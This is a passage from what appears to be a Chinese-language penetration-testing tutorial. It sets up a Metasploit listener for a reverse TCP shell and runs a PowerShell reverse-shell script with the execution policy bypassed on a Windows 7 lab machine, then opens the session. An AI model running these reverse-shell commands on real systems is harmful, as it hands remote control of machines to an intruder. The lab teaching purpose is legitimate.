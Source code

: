 1.  由于我们将使用`msfconsole`作为监听器，让我们通过在终端窗口输入以下命令来准备它。我们将使用我们的 Kali Linux 主机的专用 IP 地址 `192.168.56.10`，以及我们的监听端口`8123`：

```
cd 
service postgresql start 
msfconsole 
handler -p generic/shell_reverse_tcp -H 192.168.56.10 -P 8123 
```

![](img/0e6eed83-a525-450a-8ce7-c4a5df6447ba.png)MSF 初始化界面

1.  在你的 Windows 7 机器上，打开命令提示符，并输入以下内容：

```
powershell -ExecutionPolicy Bypass -file c:\share\powershell.reverse.ps1
```

![](img/8cb9f686-0223-47b2-bbf9-9b6104e4f658.png)PowerShell 输出

1.  你会注意到我们现在在会话 1 上有一个连接，因此让我们通过输入`sessions 1`来打开它。从这里，我们可以输入一个简单的命令，例如`dir`来获取目录列表：
